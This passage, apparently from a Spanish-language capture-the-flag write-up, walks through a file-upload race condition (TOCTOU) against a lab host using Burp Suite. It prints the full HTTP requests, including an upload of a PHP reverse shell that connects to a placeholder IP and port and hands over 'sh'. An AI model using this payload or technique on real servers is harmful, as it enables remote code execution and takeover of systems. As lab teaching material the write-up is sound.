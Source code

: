 > Peticion Leer archivo

```
GET /uploads/test.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: session=eyJ1c2VyIjoiZGlzZW8ifQ.aKQ-mw.iCU12CmvCah90wWOzNU9FO5bNPI; PHPSESSID=6l7ttl49kbdv23ip4k4j5uuhsl
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Vamos a probar una `vulnerabilidad` llamada `File Upload Race Condition / Time-of-Check-to-Time-of-Use (TOCTOU)` vamos a enviar una peticion en paralelo, para que se envie la primera que es la subida del archivo y la segunda a la misma vez que es para leer el archivo en cuestion de milesimas, para que al leerlo lo ejecute y obtengamos una `shell`, por lo que tendremos que configurar `BurpSuite` en el `Repeater` de la siguiente forma:

> peticion1 (Enviar archivo)

```
POST /profile.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------141171181371320561168503348
Content-Length: 329
Origin: http://172.17.0.2
Connection: keep-alive
Referer: http://172.17.0.2/profile.php
Cookie: session=eyJ1c2VyIjoiZGlzZW8ifQ.aKQ-mw.iCU12CmvCah90wWOzNU9FO5bNPI; PHPSESSID=6l7ttl49kbdv23ip4k4j5uuhsl
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------141171181371320561168503348

Content-Disposition: form-data; name="file"; filename="test.php"

Content-Type: text/html

<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>

-----------------------------141171181371320561168503348--
```
